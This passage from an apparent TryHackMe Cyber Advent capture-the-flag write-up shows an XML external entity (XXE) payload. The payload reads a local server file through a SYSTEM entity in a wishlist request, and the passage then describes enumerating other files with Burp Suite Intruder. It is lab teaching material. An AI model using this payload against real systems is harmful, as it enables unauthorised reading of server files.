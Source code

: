 
```xml

<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_1.txt"> ]>
<wishlist>
  <user_id>1</user_id>
     <item>
       <product_id>&payload;</product_id>
     </item>
</wishlist>


```


![Burp-03](assets/img/tryhackme/cyberadvent/day02/03.png )


Lets see into the other wishes. We can enumerate the wishes via Burpsuite:

We have to send our Request to `Intruder` via `STRG+I ` or `right-click`. Then we can choose with `add §` what we want to do and we choose `numbers` for enumerate our wish.
